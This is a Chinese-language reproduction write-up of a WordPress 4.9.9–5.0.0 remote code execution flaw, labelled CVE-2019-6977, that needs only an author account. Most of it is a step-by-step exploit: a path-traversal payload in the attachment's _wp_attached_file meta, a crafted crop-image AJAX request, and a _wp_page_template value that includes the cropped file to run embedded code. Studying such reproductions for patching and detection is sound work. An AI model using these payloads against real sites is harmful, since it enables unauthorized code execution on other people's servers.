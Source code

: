 ```yaml
---
title: （CVE-2019-6977）WordPress 5.0 rce
id: zhfly3262
---
```


# （CVE-2019-6977）WordPress 5.0 RCE

## 一、漏洞简介

漏洞条件：拥有一个author权限的账号

## 二、漏洞影响

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release 5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress 5.1-alpha-44280更新后未更新的4.9.9~5.0.0的WordPress都受到该漏洞影响。

## 三、复现过程

传图片

![image](../img/668d2784c936da8449fef4723e67db4c.png)

改信息

![image](../img/bb617269ef1df81775857cec3cd4987c.png)

保留该数据包，并添加POST

```
&meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg 
```

触发需要的裁剪

![image](../img/0851f1b60ca250b81c039b5e0ae8244f.png)

裁剪

![image](../img/86a327bed10a54ac3f8ad13700876964.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

```
action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100 
```

触发需要的裁剪

![image](../img/5e3bf70381eccf11ed2346544a9cacd5.png)

图片已经过去了

![image](../img/cabe4f9de6a869200a437b1b7b7a5710.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

```
&meta_input[_wp_page_template]=cropped-32.jpg 
```

![image](../img/c66347d3f447eb0cfd89ba57702ddd5a.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![image](../img/e28ec5227b43186f828c7071c31b5358.png)

## 四、参考链接

> https://www.freebuf.com/vuls/196514.html